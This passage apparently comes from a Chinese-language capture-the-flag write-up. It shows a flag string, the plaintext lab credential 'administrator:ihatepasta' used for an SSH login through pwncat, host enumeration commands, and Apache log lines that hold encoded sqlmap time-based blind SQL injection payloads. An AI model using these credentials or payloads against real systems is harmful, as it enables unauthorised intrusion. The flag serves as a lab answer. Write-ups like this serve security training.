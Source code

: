 ```python
```

```plaintext title="Flag"
FARADAY{d0ubl3_@nd_f1o@t_be@uty}
```

## Careful read

在上文中，我们还得到了一个凭据 `administrator:ihatepasta`

尝试连接

```bash
(local) pwncat$ connect administrator@10.13.37.14
Password: **********
[19:17:28] 10.13.37.14:22: loaded known host from db
(local) pwncat$ back
(remote) administrator@erlenmeyer:/home/administrator$ whoami
administrator
(remote) administrator@erlenmeyer:/home/administrator$ ls -lah
total 52K
drwxr-xr-x 3 administrator administrator 4.0K Sep 14  2021 .
drwxr-xr-x 5 root          root          4.0K Jul 20  2021 ..
lrwxrwxrwx 1 root          root             9 Sep 14  2021 .bash_history -> /dev/null
-rw-r--r-- 1 administrator administrator  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 administrator administrator 3.8K Jul 22  2021 .bashrc
drwx------ 2 administrator administrator 4.0K Jul 16  2021 .cache
-rw-r--r-- 1 administrator administrator  807 Feb 25  2020 .profile
-rw-r--r-- 1 administrator administrator   65 Jul 22  2021 .pythonrc
-rw-r--r-- 1 administrator administrator    0 Jul 22  2021 .sudo_as_admin_successful
-rwxr-xr-- 1 root          root           23K Jul 21  2021 tcp-server
```

在探测环境时，发现 `administrator` 有权限访问 apache 的日志

```bash
(remote) administrator@erlenmeyer:/home/administrator$ find / -user administrator 2>/dev/null | grep -vE "/proc|/sys|/home|/run"
/dev/pts/1
/var/mail/administrator
/var/log/apache2/access.log
```

在日志文件中发现大量的 sql 注入痕迹

```bash
7 "http://192.168.86.128:80/update.php" "sqlmap/1.5.7.4#dev (http://sqlmap.org)"
3004140 192.168.86.1 - - [20/Jul/2021:05:44:30 -0700] "GET /update.php?keyword=python%27%20WHERE%201462%3D1462%20AND%20%28SELECT%209551%20FROM%20%28SELECT%28SLEEP%283-%28IF%28ORD%28MID%28%28SELECT%20IFNULL%28CAST%28query%20AS%20NCHAR%29%2C0x20%29%20FROM%20sys.x%24statements_with_temp_tables%20ORDER%20BY%20db%20LIMIT%201%2C1%29%2C56%2C1%29%29%3E16%2C0%2C3%29%29%29%29%29mURF%29--%20yPzW&text=python3 HTTP/1.1" 200 327 "http://192.168.86.128:80/update.php" "sqlmap/1.5.7.4#dev (http://sqlmap.org)"
3004752 192.168.86.1 - - [20/Jul/2021:05:44:33 -0700] "GET /update.php?keyword=python%27%20WHERE%201462%3D1462%20AND%20%28SELECT%209551%20FROM%20%28SELECT%28SLEEP%283-%28IF%28ORD%28MID%28%28SELECT%20IFNULL%28CAST%28query%20AS%20NCHAR%29%2C0x20%29%20FROM%20sys.x%24statements_with_temp_tables%20ORDER%20BY%20db%20LIMIT%201%2C1%29%2C56%2C1%29%29%3E24%2C0%2C3%29%29%29%29%29mURF%29--%20yPzW&text=python3 HTTP/1.1" 200 327 "http://192.168.86.128:80/update.php" "sqlmap/1.5.7.4#dev (http://sqlmap.org)"
3011828 192.168.86.1 - - [20/Jul/2021:05:44:36 -0700] "GET /update.php?keyword=python%27%20WHERE%201462%3D1462%20AND%20%28SELECT%209551%20FROM%20%28SELECT%28SLEEP%283-%28IF%28ORD%28MID%28%28SELECT%20IFNULL%28CAST%28query%20AS%20NCHAR%29%2C0x20%29%20FROM%20sys.x%24statements_with_temp_tables%20ORDER%20BY%20db%20LIMIT%201%2C1%29%2C56%2C1%29%29%3E28%2C0%2C3%29%29%29%29%29mURF%29--%20yPzW&text=python3 HTTP/1.1" 200 327 "http://192.168.86.128:80/update.php" "sqlmap/1.5.7.4#dev (http://sqlmap.org)"
3003759 192.168.86.1 - - [20/Jul/2021:05:44:39 -0700] "GET /update.php?keyword=python%27%20WHERE%201462%3D1462%20AND%20%28SELECT%209551%20FROM%20%28SELECT%28SLEEP%283-%28IF%28ORD%28MID%28%28SELECT%20IFNULL%28CAST%28query%20AS%20NCHAR%29%2C0x20%29%20FROM%20sys.x%24statements_with_temp_tables%20ORDER%20BY%20db%20LIMIT%201%2C1%29%2C56%2C1%29%29%3E30%2C0%2C3%29%29%29%29%29mURF%29--%20yPzW&text=python3 HTTP/1.1" 200 327 "http://192.168.86.128:80/update.php" "sqlmap/1.5.7.4#dev (http://sqlmap.org)"
```